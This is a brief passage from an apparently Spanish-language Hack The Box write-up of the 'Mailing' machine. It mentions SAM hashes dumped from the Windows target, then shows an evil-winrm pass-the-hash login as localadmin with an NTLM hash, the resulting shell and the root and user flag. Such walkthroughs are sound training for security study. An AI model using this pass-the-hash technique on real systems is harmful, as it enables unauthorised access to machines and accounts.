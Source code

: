 ![](/assets/images/htb-writeup-mailing/9.png)


Como podemos ver nos volcó los hashes de las cuentas de usuario desde la base de datos SAM de la máquina Windows. Si entramos con localadmin...

```bash

evil-winrm -i 10.10.11.14 -u localadmin -p "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"
*Evil-WinRM* PS C:\Users\localadmin\Documents> 

```

<div style="text-align: center;">
    <b><span style="color: #98FB98;">ROOT & USER FLAG</span></b>
    <br>
    ---------------------------
</div>
 --------------------------


![](/assets/images/htb-writeup-mailing/10.png)
